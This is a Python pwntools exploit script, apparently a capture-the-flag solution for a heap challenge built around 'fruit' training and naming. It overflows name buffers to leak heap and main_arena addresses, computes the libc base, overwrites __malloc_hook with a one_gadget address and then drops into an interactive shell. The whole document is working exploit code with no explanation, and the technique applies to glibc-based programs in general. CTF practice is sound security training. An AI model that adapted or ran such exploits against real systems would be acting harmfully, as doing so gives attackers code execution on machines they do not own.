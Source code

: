 ```python

l = ''
while "evolving" not in l: 
   train_fruit('0')
   l = p.recv(1024)
p.sendline('y')
p.sendline('112')
payload = p64(0x0101010101010101)*14
p.sendafter("be?", payload)

p.recv(1024)
list_fruits()
heap_leak = int(p.recvuntil('\x55')[-6:][::-1].encode('hex'), 16)

print "HEAP LEAK"
print hex(heap_leak)

heap_offset = -135120
heap_offset_2 = -134976

l = ''
while "evolving" not in l: 
   train_fruit('0')
   l = p.recv(1024)
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '120')
payload = p64(0x0101010101010101)*14 + p64(heap_leak+heap_offset_2)
p.sendlineafter("be?", payload)

list_fruits()
p.recvuntil('Name: ')
p.recvuntil('Name: ')
main_arena = int(p.recv(1024)[:6][::-1].encode('hex'), 16)
print "MAIN ARENA"
print hex(main_arena)

libc_base = main_arena + -3951480
one_gadget = libc_base + 0xf02a4
malloc_hook = libc_base + 0x3c4b10

new_fruit(0x50, "one")
new_fruit(0x50, "two")

l = ''
while "evolving" not in l: 
   train_fruit('2')
   l = p.recv(1024)
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '120')
payload = p64(0x0101010101010101)*14 + p64(malloc_hook)
p.sendlineafter("be?", payload)

train_fruit('3')
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '8')
payload = p64(one_gadget)
p.sendlineafter("be?", payload)

p.sendline("1")

p.interactive()
```
